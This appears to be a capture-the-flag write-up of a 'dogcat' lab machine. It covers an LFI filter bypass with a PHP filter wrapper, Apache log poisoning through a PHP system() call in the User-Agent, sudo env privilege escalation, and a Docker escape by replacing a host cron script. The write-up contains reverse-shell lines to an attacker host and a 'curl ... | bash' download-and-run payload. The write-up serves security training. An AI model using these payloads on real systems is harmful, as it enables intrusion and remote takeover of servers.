<p align="center">
  
</p>

---

## Objectives

- What is flag 1?
- What is flag 2?
- What is flag 3?
- What is flag 4?

---

## Attack Path

`Enumeration` → `LFI` → `Log Poisoning` → `RCE` → `Initial Access` → `Privilege Escalation` → `Container Escape`

---

## Obtaining `flag 1`

I scanned the target with `nmap` to enumerate open ports, running services and their versions by executing the command below:
```bash
nmap -sS -sVC <target_host_IP> -oN <filename>
```
<p align="center">
  
</p>

The report shows `ssh` port 22 and `http` port 80 are open.

<p align="center">
  
</p>

<p align="center">
  
</p>

Visiting the Apache web server, I found a simple web application with two buttons. Clicking either button displays a random picture
of a dog or cat corresponding to the selected button.

```bash
http://10.49.156.218/?view=cat
```

Looking at the URL, the view parameter appeared to be a potential vector for `LFI` (Local File Inclusion), which could allow me
to include and read files from the server.

<p align="center">
  
</p>

It appeared that a filter was preventing me from performing directory traversal to access the `/etc/passwd` file. <br>
> A double dot `..` means to go back 1 parent directory. So on a windows terminal, if the current directory is
> `C:/Users/Administrator/Desktop`, entering `..` would go back up a parent directory which would be `C:/Users/Administrator`. <br>
> Using `../../../../` traverses up the directory hierarchy until reaching the root directory `/`, allowing access to `/etc/passwd`:
```bash
'/var/www/html' → '/var/www/' → '/var' → '/' → `/etc/passwd`
```

<p align="center">
  
</p>

Accessing `/var/www/html/cat` works. This suggested that the filter was accepting requests that contained the word "dog" or "cat".

<p align="center">
  
</p>

So I tried `/var/www/html/cat/../../../../../etc/passwd` which contains the word `cat` and see if the filter would accept it. <br>
It got through the filter. However, the web application tries to append the `.php` extension to the requested path. <br>
This prevents access to most system files because files such as `/etc/passwd.php` do not exist.

<p align="center">
  
</p>

<p align="center">
  
</p>

Checking on the `ffuf` scan I had running in the background, the results suggest there is a file named `flag` from running the command
below:
```bash
ffuf -u 'http://<target_ip>/?view=FUZZ' -w <wordlist> -e .php,.html -fs 750-900
```
Accessing the file displays nothing. However, because the application appends `.php` by default, this suggests that the target
is likely a PHP file. <br>

After some time researching, I went to check some `LFI` payloads from
[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
that I can use against the web application. <br>

| Filter                                                  | Description                                  |
|---------------------------------------------------------|----------------------------------------------|
| `php://filter/convert.base64-encode/resource=index.php` | Display index.php as a base64 encoded string |

One of the payloads listed in `Wrappers.md` is the PHP filter shown above. <br>
I can use this filter to retrieve the contents of `flag.php` and `index.php` as base64 encoded data.

<p align="center">
  
</p>

<p align="center">
  
</p>

The payload worked and I was able to retrieve the contents of `flag.php` in base64. <br>
Decoding the base64 encoded contents using [CyberChef](https://gchq.github.io/CyberChef/) reveals the first flag.

- - -

## Obtaining `flag 2`

<p align="center">
  
</p>

Next is to retrieve the contents of `index.php`. <br>
After decoding it with [CyberChef](https://gchq.github.io/CyberChef/), its contents are as follows:
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

This reveals a hidden parameter named `ext`. <br>
> What it does is it checks if `view` has been assigned a value such as `?view=cat`, when true, it calls the containsStr() function
> which is used to check if `view` contains a specific string. <br>
> 
> Inside the function containsStr(), `return strpos($str, $substr) !== false;` strpos returns `false` if $substr cannot be found inside $str. <br>
> This function is used from the line `if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat'))` which checks if
> `view` contains the words "dog" or "cat".
>
> Therefore, the web app would print "Sorry, only dogs or cats are allowed." when the function returns false.
> Otherwise, it returns the index where $substr starts inside $str. <br>
> 
> Using `?view=/var/www/html/cat/../` bypasses the filter as the function containsStr() would not return false since "dog" or "cat"
> can be found inside `/var/www/html/cat/../`.
>
> For the hidden paramter `ext`, `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` this means if `ext` is not assigned any
> value, $ext would become `.php` by default.
>
> This is why using `?view=/var/www/html/cat/../../../../etc/passwd` does not work because of the line <br>
> `include $_GET['view'] . $ext;` as it would concatenate `view` with `ext` resulting with: <br>
> `include /var/www/html/cat/../../../../etc/passwd.php`

<p align="center">
  
</p>

After discovering the hidden parameter, I was able to access `/etc/passwd` by supplying a value for `ext` that prevented `.php` from being appended <br>
However, there were no user made accounts that I can try to login with to gain an initial access to the server.

<p align="center">
  
</p>

I tried accessing the Apache web server logs to see if I can perform what's called `Log Poisoning`. Log poisoning involves injecting
a malicious payload into a log file and then using the `LFI` vulnerability to include that log file. <br>
Because the payload is interpreted as PHP when the log is included, this results in `RCE` (Remote Code Execution).

<p align="center">
  
</p>

<p align="center">
  
</p>

I set the User-Agent header to `User-Agent: <?php system('whoami; id') ?>` and sent the HTTP request so that it gets recorded
inside the Apache web server logs. <br>
After refreshing the page `http://<target_ip>/?view=/var/www/html/cat/../&ext=../../../var/log/apache2/access.log`, it renders the
malicious payload and executes it, displaying the username and UID/GID of the web server process.

The server did not have useful binaries such as `python` or `wget`. However, it has `curl` which I used to deliver
and execute a malicious payload to gain an initial access to the server. <br>
On my machine, I created a file named `shell.txt` which contains:
```bash
bash -i >& /dev/tcp/<attacker_ip>/<preferred_port> 0>&1
```
and hosted a simple directory listing using `python`:
```py
python3 -m http.server 80
```
On another terminal, I started a netcat listener to receive the incoming reverse shell:
```bash
nc -lnvp <preferred_port>
```

On the target machine, I set the User-Agent to:
```bash
User-Agent: <?php system('curl http://attacker_ip/shell.txt | bash') ?>
```
After sending the request and rendering the logs, the server downloaded and executed the payload and got an initial foothold as shown below:

<p align="center">
  
</p>

<p align="center">
  
</p>

Next thing to do is to enumerate the system.

<p align="center">
  
</p>

After a while, I found the second flag.

- - -

## Obtaining `flag 3`

<p align="center">
  
</p>

Looking at the current user's privileges, I can run the binary `/usr/bin/env` with sudo privileges. <br>

<p align="center">
  
</p>

<p align="center">
  
</p>

Visiting [GTFOBins: env](https://gtfobins.org/gtfobins/env/), which is a collection of Unix bineries that can be abused when misconfigured. <br>
Filtering for `env`, it shows that I can spawn a shell using env:
```bash
env /bin/sh
```

<p align="center">
  
</p>

```bash
sudo env /bin/bash
```
Since the current user is able to run `/usr/bin/env` with sudo privileges, I am able to gain a `root` shell
with the command above and retrieve the third flag.

- - -

## Obtaining `flag 4`

Since the machine already hinted out that I am inside a docker container, the next thing to do is to find a way to escape the container.

<p align="center">
  
</p>

I used [Deepce](https://github.com/stealthcopter/deepce/blob/main/deepce.sh), a Docker/container enumeration tool, to
enumerate the container and identify potential escape vectors. <br>
The script revealed that `/opt/backups` inside the container is mounted to `/root/container/backup` on the host. <br>
This could be a possible vector for escaping the container. So I went to enumerate what's inside `/opt/backups`.

<p align="center">
  
</p>

<p align="center">
  
</p>

Inside `/opt/backups` were two files named `backup.sh` and `backup.tar`. <br>
Contents of backup.sh:
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
The script creates `/root/container/backup/backup.tar` on the host. Since `/root/container/backup` is mounted to `/opt/backups`
inside the container, the resulting archive is accessible from `/opt/backups/backup.tar`. <br>
This suggests that `backup.sh` might be executed periodically by a scheduled task on the host. <br>
I renamed `backup.sh` to `backup.sh.bak` and replaced it with a script to gain a shell and named it as `backup.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker_ip>/<preferred_port> 0>&1
```
Changed the permissions of backup.sh to give it execute permission:
```bash
chmod 744 backup.sh
```
On another terminal, I have a netcat listener to receive the incoming reverse shell:
```bash
nc -lnvp <preferred_port>
```

<p align="center">
  
</p>

After waiting for the scheduled task to execute the modified `backup.sh`, the netcat listener received a connection and provided
a `root` shell on the host system. <br>
This allowed me to escape the Docker container, obtain a root shell on the host, and retrieve the final flag.


